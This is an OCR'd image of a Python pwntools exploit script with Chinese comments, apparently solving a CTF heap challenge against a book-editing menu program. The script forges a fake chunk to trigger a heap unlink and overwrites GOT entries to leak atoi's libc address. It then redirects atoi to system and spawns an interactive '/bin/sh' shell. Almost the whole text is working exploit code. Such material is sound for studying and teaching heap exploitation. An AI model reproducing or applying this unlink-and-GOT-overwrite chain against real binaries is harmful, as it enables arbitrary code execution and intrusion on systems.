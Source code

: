     def edit(index, size, content):
        p.recvuntil('Your choice: ')
        p.sendline('4')
        p.recvuntil('Which book to write?')
        p.sendline(str(index))
        p.recvuntil("how big?")
        p.sendline(str(size))
        p.recvuntil("Content: ")
        p.sendline(content)

    def debug():
        pid = util.proc.pidof(p)[0]
        print('pid:{}'.format(pid))
        gdb.attach(pid)
        pause()

    # 创建四个chunk 
    malloc(0, 0x30)
    malloc(1, 0xf0)
    malloc(2, 0x100)
    malloc(3, 0x100)

    # 下面伪造fake chunk，并通过溢出修改第二个chunk的prev_inuse，prev_size等
    fd = 0x602300 - 0x18
    bk = 0x602300 - 0x10
    py = b''
    py += p64(0) + p64(0x31)
    py += p64(fd) + p64(bk)
    py += p64(0) + p64(0)
    py += p64(0x30) + p64(0x100)
    py += p64(0) + p64(0)
    py += p64(0) + p64(0)
    edit(0, 0x60, py)
    # free会触发unlink
    free(1)

    # 接下来，edit第一个chunk会导致本来指向这些chunk的指针指向别的地方
    atoi_got = elf.got['atoi']
    free_got = elf.got['free']
    py = b''
    py += b'a'*0x18 + p64(atoi_got) + p64(atoi_got) + p64(free_got)
    edit(0, 0x30, py)

    # 这里将free的got表指向puts_plt，调用free时会变成调用puts
    edit(2, 0x8, p64(elf.plt['puts']))
    # 下面是程序里的free，其实是执行free(chunk[0])，也就是puts(chunk[0])，会打印atoi的got表
    free(0)
    a = p.recv()
    atoi_libc = u64(p.recv(6).ljust(8, b'\x00'))
    libc_base = atoi_libc - libc.symbols['atoi']
    system_libc = libc_base + libc.symbols['system']
    edit(1, 0x8, p64(system_libc))
    p.recvuntil('Your choice: ')
    p.sendline(b'/bin/sh\x00')
    p.interactive()
